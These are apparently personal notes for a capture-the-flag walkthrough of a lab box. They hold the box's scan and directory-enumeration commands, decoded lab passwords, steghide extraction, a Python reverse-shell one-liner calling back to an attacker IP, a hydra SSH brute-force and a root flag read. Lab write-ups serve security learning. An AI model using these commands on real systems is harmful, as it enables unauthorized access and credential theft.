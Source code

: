 ```bash
nmap -sSV -O -Pn 0.0.0.0
```

![[Captura desde 2024-09-18 11-48-16.png]]

```bash
curl http://0.0.0.0:22
```

![[Captura desde 2024-09-18 11-49-36.png]]

```bash
curl http://0.0.0.0:22/recovery.php
```

![[Captura desde 2024-09-18 11-51-04.png]]

```bash
dirsearch -u http://0.0.0.0:22
```

![[Captura desde 2024-09-18 11-54-23.png]]

```bash
dirsearch -u http://0.0.0.0:22/assets/
```

![[Captura desde 2024-09-18 11-55-04.png]]

```bash
UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==
```

![[Captura desde 2024-09-18 11-59-56.png]]

password: `u?WtKSraq`

```bash
GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=
```

![[Captura desde 2024-09-18 11-57-50.png]]

hint: `bit.ly/2TvYQ2S`

![[Captura desde 2024-09-18 13-37-38.png]]

```bash
wget http://0.0.0.0:22/assets/stego.jpg
```

![[Captura desde 2024-09-18 13-17-32.png]]

```bash
wget http://0.0.0.0:22/assets/header.jpg
```

![[Captura desde 2024-09-18 17-35-16.png]]

```bash
steghide extract -sf stego.jpg -p u?WtKSraq
```

![[Captura desde 2024-09-18 13-46-27.png]]

```bash
steghide extract -sf header.jpg -p u?WtKSraq
```

![[Captura desde 2024-09-18 17-32-15.png]]

Username: `jackinthebox`
Password: `TplFxiSHjY`

```bash
curl -X POST http://10.10.89.103:22/recovery.php -d "user=jackinthebox&pass=TplFxiSHjY" -v -L
```

![[Captura desde 2024-09-18 20-56-08.png]]

Postman to access web page

![[Captura desde 2024-09-18 20-58-18.png]]

reverse shell

```python
export RHOST="10.9.195.83";export RPORT=8888;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

![[Captura desde 2024-09-18 21-03-58.png]]

![[Captura desde 2024-09-18 21-02-57.png]]

username: `jack`

Save password list to `password.txt`

```bash
hydra -l jack -P password.txt -s 80 10.10.89.103 ssh -v -t 4
```

![[Captura desde 2024-09-18 21-09-25.png]]

username: `jack`
password: `ITMJpGGIqg1jn?>@`

![[Captura desde 2024-09-18 22-21-31.png]]

![[Captura desde 2024-09-18 22-21-40.png]]

**flag: `securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}`**

```bash
ssh -p 80 jack@0.0.0.0
```

```bash
LFILE=/root/root.txt
strings "$LFILE"
```

![[Captura desde 2024-09-18 22-04-42.png]]

**flag: `securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}`**